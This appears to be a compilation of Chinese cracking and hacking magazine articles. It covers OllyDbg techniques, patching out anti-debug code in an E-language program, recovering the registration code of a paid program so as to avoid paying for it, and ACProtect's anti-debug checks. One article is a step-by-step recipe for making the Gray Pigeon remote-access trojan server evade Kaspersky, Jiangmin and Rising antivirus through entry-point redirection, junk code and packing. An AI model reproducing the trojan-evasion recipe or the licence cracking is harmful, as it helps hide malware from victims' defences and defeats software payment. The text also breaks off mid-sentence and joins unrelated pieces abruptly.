OllyDbg 是 Cracker 最常用的一款用户级动态调试工具，它与作为系统级调试器的 SoftICE 在实现方式上有着本质的不同。除非要调试 Windows 内核、Windows 装载器、驱动程序或者其他的底层服务，一般情况下 SoftICE 并不是必需的。然而，作为 Numega 公司的拳头产品，SoftICE 灵活的命令行操作确实在 Windows 图形界面程序的调试中发挥了强大的功能，以至于不少早期的 Cracker 至今仍然鼎力追捧 SoftICE 而对其他调试器抱有排斥怀疑的态度。事实上，OllyDbg 恰恰是这种偏见所无法包容的一个例外，在本文中我们将会看到，在调试用户级的应用程序时，OllyDbg 几乎能实现 SoftICE 的所有功能。

| Address | Size | Owner | Section | Contains | Type | Access |
|---|---|---|---|---|---|---|
| （Memory Map窗口内容，含多个模块与区段） |  |  |  |  |  |  |

图1

##### 设置区块访问断点

按下 Alt+M，OllyDbg 中会弹出 Memory Map 窗口，这里列出了被调试进程空间的模块分布情况。接着在 Owner 一栏中寻找被调试程序 EXE 主文件的相应区块，如 .TEXT、.CODE 等，选中一行按下 F2，就可以在对应区块上下一次性的访问断点。这个命令在脱壳时非常有用，我们知道壳本质上是在原来的 EXE 文件外包装了一层 Loader，而 Loader 初始化以后将执行权转交给原来的 EXE 文件入口点继续执行。下面我们借助一个加了 PECompact v2 的 Crackme 来演示如何快速定位程序的原始入口点。

首先用 OllyDbg 载入加壳后的程序：

```asm
0040544A  >SBB   EDI, DWORD PTR DS:[EAX+4272CC]
00405450  >PUSH  EAX
00405451  >PUSH  DWORD PTR FS:[0]
00405458  >MOV   DWORD PTR FS:[0], ESP
0040545F  >XOR   EAX, EAX
00405461  >MOV   DWORD PTR DS:[EAX], ECX
00405463  >PUSH  EAX
00405464  >INC   EBP
00405465  >INC   EBX
00405466  >OUTS  DX, DWORD PTR ES:[EDI]
...
```

```asm
0040544B  >PUSH  EBP
0040544C  >MOV   EBP, ESP
0040544E  >PUSH  -1
00405450  >PUSH  Crackme.0040C2E8
00405455  >PUSH  Crackme.0040755C
0040545A  >MOV   EAX, DWORD PTR FS:[0]
00405460  >PUSH  EAX
00405461  >MOV   DWORD PTR FS:[0], ESP
00405468  >SUB   ESP, 58
...
kernel32.GetVersion
00405477  >XOR   EDX, EDX
00405479  >MOV   DL, AH
...
```

一个颇为不幸的消息是，该功能只支持 NT 内核的 Windows 2000/XP 等系统。

在 Debugging Option 中的 Exception 选项卡中设置忽略所有异常，然后在命令行插件中下断点 bp VirtualFree，F9 运行，中断两次以后按下 Alt+F9 返回主程序领空。

这时按下 Alt+M 打开 Memory Map 窗口，如图1所示。选中 Crackme 模块中的 .TEXT 区块，按下 F2。返回反汇编窗口，按下 F9——OllyDbg 在原始入口点处平稳落地。

### 如何设置条件断点？

不要以为只有 SoftICE 才支持强大的条件断点，事实上，OllyDbg 对条件断点的实现有过之而无不及，尽管这是一个相对而言比较隐蔽的功能。

按下 Ctrl+T 或者 Shift+F4，OllyDbg 会给出两个完全不同的条件断点设置面板。

按下 Ctrl+T 时显示“Condition to pause run trace”面板，如图2所示。


图2

在这里我们可以指定模拟追踪（Run Trace）时各种与寄存器和指令相关的中断条件。设定 EIP 范围给脱壳带来极大的便利，当我们跟踪一个不太熟悉的壳时，可以把 EIP 的范围设定在程序的原始代码区块中，让 OllyDbg 代替我们自动跟踪。“Condition is TRUE”的功能就更强大了，我们可以指定任意寄存器为特定值的时候让程序中断下来。注意一下面板底部的说明“In command, R8, R32, RA, RB and CONST match any register or constant”。

这可是相当强大的寄存器和立即数匹配条件，可见 OllyDbg 的智能化追踪程度已经达到了很高的水平，注意这里的 R8、R32、RA、RB 不能在前面的“Condition is TRUE”中匹配寄存器，只能在命令条件中使用。

按下 Shift+F4 时 OllyDbg 会弹出一个完全不同的“Set conditional log breakpoint at XXX”面板，如图3所示。


图3

这个条件断点设置系统的不同之处在于我们必须事先明确指定中断位置，且调试器只会在我们设定的条件得到满足时才中断在这个位置。我们注意到 OllyDbg 内置了许多方便的常数映射功能，包括：

- Assumed by expression
- Boolean value (TRUE/FALSE)
- Identifier of resource string
- Error code (as returned by GetLastError)
- Handle of window
- Message code (WM_xxx)
- Virtual key code (VK_xxx)
- Packed pair of 16-bit words
- Packed RGB color
- Pointer to ASCII string
- Pointer to UNICODE string
- Pointer to MSG structure (ASCII)
- Pointer to MSG structure (UNICODE)
- Pointer to RECT structure

这意味着我们在设置条件时可以直接填入微软头文件中定义的标识，而不必填入 16 进制常数了。

### 如何设置命令行参数？

不少程序启动时需要在命令行附加参数字符串，OllyDbg 同样也为我们扩展了这一部分功能。要做到这一点非常方便，点击 Debug 菜单，选中 Arguments，OllyDbg 会弹出一个对话框等待输入命令行参数。输入参数，点击 OK 以后会提示“You have changed the command line arguments. If you want that new arguments take effect now, you must restart debugged program.”这时只要按下 Ctrl+F2 重新加载程序即可。

### 如何在发生加载 DLL 的调试事件时中断？

随着加密技术的发展，越来越多的加壳软件开始利用动态链接库来实施反跟踪，比如老王的 EncryptPE。外壳的 Loader 利用 LoadLibrary 将 DLL 动态加载到加壳程序的进程空间，并在 DLL 的初始化函数中采用了各种反跟踪技巧，OllyDbg 往往不经意间就被拖杀于外壳的魔掌之中。为了避开这些反跟踪技术，我们有必要让 OllyDbg 停留在动态链接库的初始化函数入口，对 DLL 的执行取得完全的控制。

按下 Alt+O 打开调试选项，在 Events 面板中勾选 Break on new module (DLL)。下面我们来加载一个 LordPE 的例程看看如何中断在动态链接库的入口。将 LordPE 主程序拖入 OllyDbg 后弹出对话框如图4所示。


图4

鼠标选中“E:\Cracking tools\PE tools\LordPE\procs.dll”，按下 Enter，OllyDbg 将在反汇编窗口中显示该 DLL 的代码。接着按下 Ctrl+G，填入我们在列表中看到的 DLL 入口地址 20002431，就可以定位到 DLL 的入口，我们在这里设下断点，那么 DLL 的每一句指令尽在掌握。

##### 如何设置消息断点

SoftICE 具有强大的窗口消息拦截功能，对于调试 Windows 下的 GUI 程序特别方便。在 OllyDbg 中，我们同样可以使用消息断点，只不过这是一个相对比较隐蔽的功能。还记得前面提到的条件断点吗？下面我们以 Windows 自带的扫雷程序 Winmine.exe 来演示如何设置消息断点。

用 OllyDbg 载入 Winmine.exe，F9 让它运行起来。由于 NT 系统下 Windows 隐藏了窗口对象的窗口过程，这给 OllyDbg 这类用户级调试器取得窗口过程地址带来了一定的困难。这里我们求助于另外一个工具——Visual Studio 自带的 Spy++ 来确定窗口过程的地址。启动 Spy++，从主菜单选择 Search→Find Window，把对话框中的靶状图标拖曳到扫雷程序的主窗口上释放，此时 Spy++ 就可以捕捉到扫雷窗口的信息，点击 OK 来到 Window 1 窗口，如图 5 所示。


图5

双击“扫雷”一行，我们就获得了关于这个窗口的详细信息，如图 6 所示。这里我们需要的是 Window Proc 参数。接下来我们把光标定位到 OllyDbg 的反汇编窗口中，按下 Ctrl+G 填入我们刚刚取得的窗口过程地址 100180A，选中这行代码，按下 Shift+F4 开始设置条件断点。当程序代码运行到窗口过程入口时，堆栈的参数分布如下：


图6

| 栈偏移 | 含义 |
|---|---|
| [ESP+00] | 返回地址 |
| [ESP+04] | 32 位的窗口句柄 |
| [ESP+08] | 消息 ID |
| [ESP+0C] | wParam |
| [ESP+10] | lParam |

假定我们要让程序在收到“鼠标左键按下”时暂停在窗口过程的入口，那么在条件断点设置对话框中的配置如图 7 所示。回到扫雷程序主界面，在任意一个单元上按下鼠标左键——BOOM！OllyDbg 已经帮我们中断下来了。事实上，窗口消息断点只是 OllyDbg 强大条件断点功能的一种特殊应用而已，对于任何函数的条件断点，我们均可以通过指定堆栈参数的值来设置不同的中断条件。


图7

修改可执行文件时，必须首先把待修改字节的相对虚拟偏移地址（RVA）转换为文件偏移地址（FA）。而在 OllyDbg 中，我们可以直接修改那些以可执行模块形式加载到内存中的 PE 文件，并轻易地保存到磁盘中，大大方便了对文件动手术的步骤。要修改某一句指令，我们只需要双击那行代码，按照汇编助记符的形式填入，OllyDbg 会自动计算转移指令的相对偏移。如果因为疏忽而发生了错误，只需要按下 Alt+Backspace 键就可以取消前面的输入。要保存所有的修改到可执行文件，只需要选中修改过的代码，在右键菜单中选择“Copy To Executable File→Selection→Save File”，填入目标文件即可。

#### 控制代码的流向

在脱壳破解的过程中，我们往往要在目标程序中写入一些附加代码以方便对程序的控制，这些代码称为 Patch Code，常常用于取消输入表加密、修复 SDK、跳过某些功能代码等场合。在一个传统的调试器中，我们必须构造这样一些代码：

```asm
jmp YYYYYYYY
XXXXXXXX:
;----------------
YYYYYYYY:
    ; 执行附加功能
    jmp XXXXXXXX
```

其实有一个方法可以把我们从这些繁琐的 Jmp 中解放出来。在 OllyDbg 的反汇编窗口中右键点击选中一条指令，然后调出右键菜单，在其中选择 New origin here，这时下一步要执行的指令就自动修正为我们选中的汇编代码。有了这个功能，我们再也不用 Jmp 来 Jmp 去，只要把核心功能代码写入一个空白的内存区域，让 OllyDbg 自动把执行流转向我们的代码，待执行完毕后再重定向到原来的位置，让程序若无其事地继续往下跑吧！

#### 可执行文件修改和代码注入

修改可执行文件已经不是什么稀罕事了，爆破、脱壳无一不涉及到对 PE 文件代码的修改。过去我们采用其……

icefire：易语言是一款由国人开发的可视化面向对象编程工具……本文将带着你学习如何快速到达易语言非独立编译程序的“OEP”。

适合读者：易语言程序员、逆向爱好者  
前置知识：汇编入门知识、OD 的简单使用、易语言相关知识


## 破解易语言非独立编译程序

## ——实战《魁星电脑侍卫》反调试篇

文/图 披着猫皮的虎

可能有些朋友还不了解易语言编译的方式及特点，下面简单地讲一下。

- 1. 独立编译：程序和易支持库打包在一个 exe 文件中，可脱离环境使用……
- 2. 非独立编译：单独编译 exe，需带支持库才能运行……
- 3. 启动过程：连接器对 ecode 段进行封装成本地可执行代码……

> 有些 PEiD 带特征数据库可以显示为 e-language-*。

##### 逆向过程

使用工具：HA_OllyDBG_1.10_second_cao_cong_fix、Peid v0.94。程序简介：魁星电脑侍卫是一款保护电脑不被别人非法使用的软件。

### 【初步分析】

- 1. 用 Peid 查壳为 Microsoft Visual C++ 6.0，又在目录下看到 krnln.fnr（易语言支持库），判断为非独立编译。
- 2. 用 OllyDBG 加载主程序，按 F9 运行，OllyDBG 被关闭，说明程序有反调试代码。


### 【逆向分析】

- 1. 快速到达程序“OEP”：用 OllyDBG 再次加载主程序，来到 00401000 处，步过/步入 CALL，跟踪到 00401191 处……

```asm
00401000 >/$ E8 06000000  CALL ...
00401005  |. 50           PUSH EAX
00401006  |. E8 BB010000  CALL <JMP.&KERNEL32.ExitProcess>
0040100B  /$ 55           PUSH EBP
0040100C  |. 8BEC         MOV EBP,ESP
0040100E  |. 81C4 F0FEFFFF ADD ESP,-110
...
004010B4  |. E8 25010000  CALL <JMP.&KERNEL32.lstrcatA>
...
004010BE  |. 85C0         TEST EAX,EAX
004010C0  |. 0F85 9E000000 JNZ ...
```

```asm
004010C7 8D85 F4FDFFFF LEA EAX,DWORD PTR SS:[EBP-10C]
004010CD 50 PUSH EAX
004010CF 68 19000200 PUSH 20019 ; Access = KEY_READ
004010D3 6A 00 PUSH 0 ; Reserved = 0
004010D5 68 38104000 PUSH ... ; Subkey = "Software\\FlySky\\EInstall"
004010DA 68 01000080 PUSH 80000001 ; hKey = HKEY_CURRENT_USER
004010DF E8 ... CALL RegOpenKeyExA
...
00401191 FFD0 CALL EAX
00401193 6A 00 PUSH 0 ; ExitCode = 0
00401195 E8 ... CALL ExitProcess
```

从上面代码来看，00401191 处的 CALL EAX 将加载易格式进行本地封装等操作，用 F7 步入 CALL EAX，到达 1002973A，此时为 krnln.fnr 领空，代码如下：

```asm
1002973A 55 PUSH EBP
1002973B 8BEC MOV EBP,ESP
1002973D 8B45 08 MOV EAX,DWORD PTR SS:[EBP+8]
10029740 50 PUSH EAX
10029741 B9 ... MOV ECX,krnln....
10029746 E8 ... CALL krnln.10028C4F
1002974B 5D POP EBP
1002974C C2 0400 RETN 4
```

由 1002973A 向下看可以发现只有一个 CALL 10028C4F，用 F7 步入进去看看，到达 10028C4F 处，代码如下：

```asm
10028C4F 55 PUSH EBP
10028C50 8BEC MOV EBP,ESP
10028C52 83EC 08 SUB ESP,8
10028C55 53 PUSH EBX
10028C56 56 PUSH ESI
10028C57 57 PUSH EDI
10028C58 894D F8 MOV DWORD PTR SS:[EBP-8],ECX
10028C5B FF15 ... CALL DWORD PTR DS:[<&KERNEL32.GetProcessHeap>]
10028C61 8B4D F8 MOV ECX,DWORD PTR SS:[EBP-8]
10028C64 8981 50040000 MOV DWORD PTR DS:[ECX+450],EAX
```

```asm
10028C6A 8B55 08 MOV EDX,DWORD PTR SS:[EBP+8]
10028C6D 8B42 30 MOV EAX,DWORD PTR DS:[EDX+30]
10028C70 83E0 01 AND EAX,1
10028C73 85C0 TEST EAX,EAX
10028C75 75 10 JNZ SHORT ...
10028C7A 51 PUSH ECX
10028C7D 8B4D F8 MOV ECX,DWORD PTR SS:[EBP-8]
10028C7E E8 ... CALL krnln.100587F0
10028C83 FFE0 JMP EAX
```

用 F8 执行到 10028C7E 处，此 CALL 将易格式封装完成后返回到 10028C83，此行中的 EAX 就是程序的入口点。执行 JMP EAX 后到达 00529806 处，我们就跑到程序领空了。此时用 OllyDBG 的超级字符串查找插件可以查找程序中的相关信息了，如图 2 所示。


图2

经过分析多个易语言非独立编译的程序，发现过程和上面一样，方法通用。我也写了一个简单的 OllyDBG 自动脚本，使用脚本可以让 OllyDBG 自动跑到程序的“OEP”处（脚本可以在光盘中找到）。

## 2 去除程序的反调试

蛇打七寸，易语言非独立编译程序的弱点也就在于找到“OEP”，找到之后想对程序做什么也就简单了，如去除《魁星电脑侍卫》的反调试。在 00529806 处下断点，Ctrl+F2 重新加载程序，F9 运行，断在 00529806 处。代码如下：

```asm
00529806 FC CLD ; 真正进入程序领空了，此处相当于 OEP
00529807 DBE3 FINIT ; 在此处用字符串插件查找会找到程序中的相关文本信息
00529809 E8 ... CALL ...
0052980E 68 ... PUSH ...
00529813 B8 03000000 MOV EAX,3
00529818 E8 ... CALL ...
0052981D 83C4 04 ADD ESP,4
00529820 E8 ... CALL ...
00529825 E8 ... CALL ...
0052982A 50 PUSH EAX
0052982B E8 ... CALL ...
00529830 E8 ... CALL ...
```

用 F8 步过粗略跟踪，得知执行 CALL 00525DD3 后会使 OllyDBG 关闭，重新加载后再 F7 步入查看。代码如下：


> OllyDBG 被意外关闭，则关闭前记录的断点将不被保存，所以必须重新加载一次程序以便保存断点。

好多 CALL，用 F8 步过粗略跟踪，得知执行 00525E5D 处 CALL 0052733B 后会使 OllyDBG 关闭。重新加载后来到 00525E5D 处，将 CALL 0052733B 修改为 JMP 0052601F，F9 运行程序界面就出来了。就这样，反调试代码也去除了。

记得修改并另存为新文件再去研究算法或爆破，具体破解过程本文不再赘述！

##### 问题总结

本文的目的是教你如何快速到达易语言非独立编译程序的 OEP，适用于所有由易语言非独立编译的程序。尽管《魁星电脑侍卫》程序加入了反调试代码，但是设计不够严密，还是很容易被破解的。希望此文能给易程序员一些启示，加强自身保护。

- 适合读者：木马爱好者
- 前置知识：破解基础知识

## VIP会员学习成果展：

## 制作免杀版黑防灰鸽子

文/图【黑防VIP】op636 火龙


最近加入了黑防的 VIP，看到大家都在寻求黑防鸽子的免杀版。我也是个菜鸟，希望能和大家多多交流，现在把我的鸽子免杀经验和大家一起分享。

今天的教程是 CSERVER.DAT 免杀。大家都知道灰鸽子 2.02 的 H_Client.exe 是通过 CSERVER.DAT 生成的，CSERVER.DAT 与生成的服务端的区别就在于配置信息，所以只要 CSERVER.DAT 免杀了，生成的服务端自然免杀。

使用工具如下：OllyDBG 汉化第二版，PEiD v0.94，木马彩衣免杀版.exe，PEditor.exe，NsPack.V3.5.CracKed，黑防鸽子专版，ResHacker。

首先我们可以到黑防的 VIP 软件中下载“黑防鸽子专版”。

至于其他站点下载的可能有后门。解压时杀毒软件会提示 H_Client.exe 和 CSERVER.DAT 都是木马，所以我们需要关闭杀毒软件。先将 CServer.dat 改成 .EXE，然后用 PEiD 打开 CServer.exe，发现是用 Borland Delphi 6.0—7.0 写的，没有加壳。如图 1 所示。

我们在做免杀时也不能加壳，不然生成服务端时，自己的上线配置信息就无法写入。当我们生成好服务端后，再加一层压缩壳。毕竟灰鸽子的服务端实在是太大了。

今天主要介绍的是 CServer.dat 跳转入口地址、加花等免杀技巧。看起来也没什么，不过按照本文的方法制作免杀服务端，我们就可以不用 CLL 来定位所有杀毒软件的特征码了。


图1

特征码再制作免杀了。我的鸽子到现在都没被杀过，只要大家自己动手做免杀，杀毒软件还会那么强吗？

先用黑防鸽子生成一个服务端，点击“配置服务端”，上线 IP 就随便填一个，如 111.111.111.111，如图 2 所示。


图2

其它不填，直接点“生成”。我是用服务端来做免杀，做好后修改一下资源，改名为 CSERVER.DAT 后放到 Cache 目录中，以后就可以直接生成免杀服务端。

这里还有个关键点要说一下，我们做 CSERVER.DAT 免杀，是用生成的服务端来做免杀，用 CSERVER.DAT 来做免杀的话会有不能上线的问题。

```asm
004A1E48  55            PUSH EBP
004A1E49  8BEC          MOV EBP,ESP
004A1E4B  B9 04000000   MOV ECX,4
004A1E50  6A 00         PUSH 0
004A1E52  6A 00         PUSH 0
004A1E54  49            DEC ECX
004A1E55  75 F9         JNZ SHORT ...
```

```asm
004A1E48 55   PUSH EBP
004A1E49 8BEC MOV EBP,ESP
```

```asm
004A1E4B  B9 04000000  MOV ECX,4  // 再把这3行 NOP 掉
```

往下找零区域，选取地址“004A2247”开始加入汇编代码，再加入一行跳转到原来的“004A1E50 > 6A 00 PUSH 0”地址，代码 JMP 004A1E50。


图3

这个怎么办？看来不能修改。那我们给 CServer.exe 加个区段，打开木马彩衣免杀版，选择“只加区段”，设置区段名“火龙”，区段大小 100，然后 OK，如图 4 所示。


图4

用 PEiD 打开 Server.exe，点区段旁边的按钮查看区段，可以看到刚才加的“火龙”区段，如图 5 所示。


图5

记住地址“000C2000”，后面还有用。再次用 OllyDbg 载入 Server.exe，按 Ctrl+G 找到 004C2000，在此处选地址“004C2010 ...”，然后加入下面 3 行代码。

```asm
004A1E48 55          PUSH EBP
004A1E49 8BEC        MOV EBP,ESP
004A1E4B B9 04000000 MOV ECX,4
```

再加入跳转 JMP 004A1E50 这一行，现在可以保存了。接下来用 PEditor 修改入口地址，载入另存文件 Server2.exe，将入口地址改为 000C2010 并应用更改。


我们在其他的零区域随意加一段花指令。


保存文件，再用 PEditor 修改入口点为 000C204D。现在测试，可以过卡巴斯基和江民了。然而在瑞星查杀内存的情况下还是被干掉了。大家不要失望，说过不用 CLL 就不用。我们加个北斗的壳，Server2.exe 压缩后为 270KB（276,567 字节），这时可以过瑞星的内存了，大家可以测试一下。

假如上线配置信息正确的话，这就是你的免杀服务端了。可以正常使用和上线。但我们要用生成的服务端作为 CSERVER.DAT 的话，就不能先加北斗的壳。我们可以先用这个不过瑞星内存的 Server2.exe（没加壳）改名 CSERVER.DAT 放到 Cache 目录中，再配置生成服务端；最后加北斗的壳就能过内存查杀了。


现在我们先处理一下 Server2.exe（没加壳），用 ResHacker 载入 Server2.exe，将 RC 数据中的 HACKER 删除，如图 6 所示。

改名 Server2.exe 为 CSERVER.DAT 放到 Cache 目录中。用客户端 H_Client.exe 生成服务端，加壳，用 OllyDBG 载入生成的服务端文件，这时瑞星的内存已不再查杀报警，免杀版灰鸽子制作成功。

适合读者：破解爱好者  
前置知识：汇编入门知识，OD 的简单使用

#### “外挂制作学习环境”

文/图 jk2004


好多天没有破解了，今天就随便拿了一个软件练手。本来觉得很简单，没想到刚开始就蒙住了！软件叫做“外挂制作学习环境”，打开一看发现就是几篇文章，但是却要 68 元的注册费。看来只有破解掉它了。

先准备工具：Peid、OD、Dasm。这个软件有个坎，过了就没有问题。用 OD 加载后，经过初步跟踪，发现该程序又创建了一个进程，明显脱离了已在调试的程序，同时增加了调试的难度。用 Peid 扫描，如图 1 所示。


我们打开 OD 中的“附加加载创建的进程”。打开该路径一看，用 Peid 扫描 wgjc.exe，发现加了壳，用 Peid 0.93 的脱壳功能直接搞定。扫描后发现是用 Delphi 写的，如图 2 所示。


程序的加密方式是用机器码生成注册码的，所以每台机器是不一样的。过了这个坎，下面的路就好走了。顺便说一下，有些软件为了增加调试的难度，会创建新的进程。这时你试一试 OD 的“附加功能”，一般就可以搞定。

#### 破解过程

随便输入字符串 987654321，出现错误提示，如图 3 所示。

OD 加载，用字符串插件查找上面提示错误，在 50FE84 下断点：


图 3

```asm
0050FE84  E8 D34BFFFF    CALL wgjc.exe.00504A5C
...（此处中断，下面详细分析）
0050FE89  84C0           TEST AL,AL
0050FE8B  75 2C          JNZ SHORT wgjc.exe.0050FEB9
0050FE8D  8D45 FC        LEA EAX,DWORD PTR SS:[EBP-4]
...
00504AAE  E8 31FBEFFF    CALL wgjc.exe.004045E4
00504AB3  85C0           TEST EAX,EAX
00504AB5  75 04          JNZ SHORT wgjc.exe.00504ABB
00504AB7  33DB           XOR EBX,EBX
...
00504AD9  E8 56FBFFFF    CALL wgjc.exe.00504634
```

```asm
; 得到程序提供机器码
00504671  8B45 DC        MOV EAX,DWORD PTR SS:[EBP-24]
00504674  8D55 EC        LEA EDX,DWORD PTR SS:[EBP-14]
00504677  E8 0C45F0FF    CALL wgjc.exe.00408B88
...
0050468D  EB 5D          JMP SHORT wgjc.exe.005046EC
...
005046A1  79 03          JNS SHORT wgjc.exe.005046A6
005046A3  83D1 00        ADC ECX,0
...
005046B8  79 03          JNS SHORT wgjc.exe.005046C0
005046BD  83D0 00        ADC EAX,0
...
005046D1  E8 6E01F0FF    CALL wgjc.exe.00404844
; 得到后 7 个 ADE6796
...
005046E2  BA 03000000    MOV EDX,3
; 中文是“天下无挂无挂天下”
005046E7  E8 B8FFFEFF    CALL wgjc.exe.004046A4
```

该函数处理机器码 000003ADE6796，分成前 6 个和后 7 个，最后把“天下无挂无挂天下”连在两者中间，形成新的字符串。然后进行一些运算，最后得出计算结果 D566357D，然后把该结果与 00000 链接形成真正的注册码 00000D566357D。

```asm
00504634  55             PUSH EBP
...
0050466C  E8 9F0E0000    CALL wgjc.exe.00505510
```

```asm
005046DC  C745F0 00000000    MOV DWORD PTR SS:[EBP-10],0
005046F3  C745F4 00000000    MOV DWORD PTR SS:[EBP-C],0
005046FA  8B45FC             MOV EAX,DWORD PTR SS:[EBP-4]
005046FD  E852F8FFFF         CALL wgjc.exe.00404554
00504702  3B4604             CMP EAX,DWORD PTR DS:[ESI+4C]
...
0050475C  8945F0             MOV DWORD PTR SS:[EBP-10],EAX
0050475F  8955F4             MOV DWORD PTR SS:[EBP-C],EDX
00504762  4B                 DEC EBX
00504763  8B45E0             MOV EAX,DWORD PTR SS:[EBP-20]
00504766  E879FEEFFF         CALL wgjc.exe.004045E4
```

```asm
0050476B  3BD8               CMP EBX,EAX
0050476D  ...                循环处理字符串
0050476D  7F04               JG SHORT wgjc.exe.00504773
0050476F  85DB               TEST EBX,EBX
00504771  7FB9               JG SHORT wgjc.exe.0050472C
*************** 循环结束 ***************
```

至此计算的结果保存在 `EAX = D566357D`。结果是根据我的机器码生成的，我的是 `000003ADE6796`，相信每台机器都是不一样的。

```asm
0050478B  FF75F4             PUSH DWORD PTR SS:[EBP-C]
0050478E  FF75F0             PUSH DWORD PTR SS:[EBP-10]
...
00504AE9  85C0               TEST EAX,EAX
00504AEB  7404               JE SHORT wgjc.exe.00504AF1
...
004089C6  39D1               CMP ECX,EDX
004089C8  7602               JBE SHORT wgjc.exe.004089CC
004089CA  89D1               MOV ECX,EDX
004089CC  39C9               CMP ECX,ECX
004089CE  F3A6               REPE CMPS BYTE PTR ES:[EDI],BYTE PTR DS:[ESI]
004089D0  7408               JE SHORT wgjc.exe.004089DA
```

##### 总结

其实我们只要在 `4089CE` 下断点 `bp 4089ce`，就可以看到每一位注册码。但是如果仅仅以找注册码为目的，进步不会很大，寻找它的算法才是最重要的。拿作者的思想和自己对比一下，谁更好一点？如果让我去加密，我会怎么做？这些都是我们需要思考的东西。

适合读者：初级破解爱好者  
前置知识：OllyDbg 使用方法

#### 从 UltraProtect 到 ACProtect

文/图 Radoc —— 反调试技术回顾与透视


2003 年 2 月，一款名为 UltraProtect 的国产加密壳进入解密者的视野。让人惊奇的是这款加密壳的作者 risco 也同时出现在国内加解密领域的最前沿阵地——看雪论坛上，以加密者的身份同众多解密高手展开对话。当时恰逢国内加解密群体的高速成长期，各类解密工具层出不穷，UltraProtect 作为这一特殊时期的产物，也打上了对抗这些跟踪调试工具的烙印。2003 年 4 月，UltraProtect 正式更名为 ACProtect（Anti Crack Protector），正如你猜到的那样，这款加密壳开始有意地模仿当时的加密壳老大 ASProtect。事实上，无论在命名和代码功能上，ACProtect 都吸取了不少 ASProtect 的优秀成分，一时也被列为密界公认的猛壳之一。经历了漫长的沉寂，ACProtect 终于再次升级。

```text
0012FF88  7C800000  hModule = 7C800000 (kernel32)
0012FF8C  004B6ECA  \ProcNameOrOrdinal = "GlobalAlloc"
0012FF90  00402039  UProtect.00402039
```

```text
004B7607 8B85 88E40000 MOV EAX,DWORD PTR SS:[EBP+<AddrGetProcAddress>]
004B760D 8038 CC       CMP BYTE PTR DS:[EAX],0CC
004B7610 74 10         JE SHORT 004B7622
004B7612 90            NOP
004B7613 90            NOP
004B7614 90            NOP
004B7615 90            NOP
004B7616 58            POP EAX
004B7617 FF95 88E40000 CALL DWORD PTR SS:[EBP+AddrGetProcAddress]
004B761D EB 19         JMP SHORT 004B7638
```

##### UltraProtect

作为 ACProtect 的原型，UltraProtect 在反调试方面一点也不亚于它的后继者。事实上，ACProtect 的 loader 反调试技术一直就没有发生很大的变化。尽管 OllyDbg 和不断发展的插件技术已经能够轻易回避这些检测手段，但是 ACProtect 的反跟踪在当时看来，还是非常隐蔽和出色的。本文以 UltraProtect v1.05 为例，详细分析它的反跟踪代码。OllyDbg 载入 UProtect.exe，首先在调试选项中忽略 INT3、INT1 以及内存访问异常，避免调试器反复捕获这些中断；并启动 IsDebuggerPresent 插件，下硬件断点在 GetProcAddress，F9 运行断在下面的地方。

```text
7C80AC28  8BFF  MOV EDI,EDI
7C80AC2A  55    PUSH EBP
7C80AC2B  8BEC  MOV EBP,ESP
7C80AC2D  51    PUSH ECX
7C80AC2E  51    PUSH ECX
7C80AC2F  53    PUSH EBX
```

这里是 UltraProtect 开始装载外壳所使用的 API 函数。由于 UltraProtect 借助 SDK 实现了壳中壳技术，因此即使是脱壳后这些函数仍然被调用，所以要完成跨平台修复必须增加额外的初始化操作，其中就包括重新装载这些 API 函数。观察此时的堆栈。

```text
0012FF84  004B761D  /CALL to GetProcAddress from UProtect.004B7617
```

```text
004B6ECA 47 6C 6F 62 61 6C 41 6C 6C 6F 63 00  GlobalAlloc
004B6EDA 61 6C 6C 46 72 65 65 00              allFree
004B6EEA 74 50 72 6F 63 65 73 73 49 64 00     tProcessId
004B6EFA 65 54 6F 6F 6C 68 65 6C 70 33 32 53 6E 61 70 73  ...
...（数据窗口中大量 API 字符串）
IsDebuggerPresent
CreateFileA
WriteFile
GetTempPathA
```

```asm
004B6F6A 657074696F6E46696C74657200   ; SetUnhandledExceptionFilter...
004B6FCA 74546872656164436F6E74657874 ; ThreadContext...
004B6FDA 657443757272656E7454687265616400 ; GetCurrentThread
004B6FEA 5553455233322E444C4C...      ; USER32.DLL
004B700A ... GetWindow...
004B701A ... GetClassNameA
004B702A ... PostMessageA
... RETRINAPI2CF ...
```

```asm
004B7FEF 90             NOP
004B7FF2 8BF7           MOV ESI,EDI
004B7FF6 EB E8          JMP SHORT 004B7FE0
004B8001 8B17           MOV EDX,DWORD PTR [EDI]
004B8003 660BD2         OR DX,DX
004B8006 74 22          JE SHORT 004B802A
...
004B801A E8 ...         CALL <SubCheckProcessName>
004B801F 80FE 01        CMP DH,1
004B8022 74 1C          JE SHORT 004B8040
...
004B8028 EB D7          JMP SHORT 004B8001
```

CreateToolhelp32Snapshot、IsDebuggerPresent、TerminateProcess……这些都是比较经典的反跟踪组合了，UltraProtect 在一个循环中依次加载了这些函数，已经将自己的意图暴露无疑。

下断点 `bp CreateToolhelp32Snapshot+2`，由于 UltraProtect 会捕获异常检查硬件调试器，这次我们还是利用普通 CC 断点，不过不能断在函数的入口。F9 运行，经过无数的异常，我们终于停在 CreateToolhelp32Snapshot 的入口，Alt+F9 返回外壳代码。

```asm
004B7FA7 C785...       MOV DWORD PTR SS:[EBP+<lpProcessEntry32>],128
004B7FB1 6A 00         PUSH 0
004B7FB3 6A 02         PUSH 2
004B7FB5 FF95...       CALL DWORD PTR [CreateToolhelp32Snapshot]
004B7FBB 8985...       MOV DWORD PTR SS:[EBP+<hSnapshot>],EAX
...
004B7FCA FF95...       CALL DWORD PTR [AddrProcess32First]
004B7FD0 0BC0          OR EAX,EAX
004B7FD2 0F84...       JZ 004B805E
...
004B7FDE 8BFE          MOV EDI,ESI
004B7FE0 8A07          MOV AL,BYTE PTR [EDI]
004B7FE2 0AC0          OR AL,AL
004B7FE4 74 12         JE SHORT 004B7FF8
...
004B7FEC 75 07         JNZ SHORT 004B7FF5
```

这里的故意进程名列表也就是 UltraProtect 所定义的调试跟踪程序了，我们到数据转存窗口查看，UltraProtect 可谓是对所有可能实施跟踪的程序赶尽杀绝了，大家熟知的 OllyDbg 和 TRW 自然位列其中，还有不少程序甚至闻所未闻！

```text
EXESPY.WXR95.RE
GMON.FILE MONITOR
REGMON.EXE
WDETECTIVE.DEBUG
VIEW.RESSPY.ADVANCED REGISTRY...
RACER.REGSNAP.ME
MSPY.MEMORY DOCTOR
OR.PROCDUMP32.ME
...
```

```asm
52 4F 47 4D 4F 52 59 ...
MORY EDITOR.FROG
...
R.MEMORYMONITOR
...
NUMEGA SOFTICE
...
OADER.Ursoft.W32
...
HINA CRACKING GR
...
W2000
```

```asm
